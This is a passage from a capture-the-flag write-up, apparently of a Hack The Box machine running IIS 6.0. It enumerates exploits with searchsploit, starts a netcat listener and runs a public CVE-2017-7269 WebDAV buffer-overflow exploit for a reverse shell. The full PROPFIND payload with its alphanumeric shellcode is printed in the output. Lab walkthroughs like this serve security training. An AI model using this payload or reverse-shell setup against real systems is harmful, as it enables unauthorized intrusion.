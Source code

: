```bash
********************************************************
 Cleaning up

********************************************************
davtest.pl Summary:
```

Hence, I move on to searching for exploits using `searchsploit`.

```bash
$ searchsploit iis 6.0
------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                        |  Path
------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Internal Network Name Disclosure                      | windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow                               | windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion Denial of Service                                 | windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of Service                                          | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhaustion (Denial of Service) (MS10-065)                | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                              | windows/remote/41738.py
...
```

It seems that this version of `IIS` has a remote buffer overflow vulnerability. 

# Exploitation (1)

However, this script did not work, hence I found a working alternative [here](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269).

Before running the exploit, we will need to start a `nc` listener.

```bash
$ rlwrap nc -lvnp 1337                         
listening on [any] 1337 ...
```

We then run the exploit:

```bash
$ python s.py grandpa.htb 80 10.10.XX.XX 1337
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃翾  Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A
```

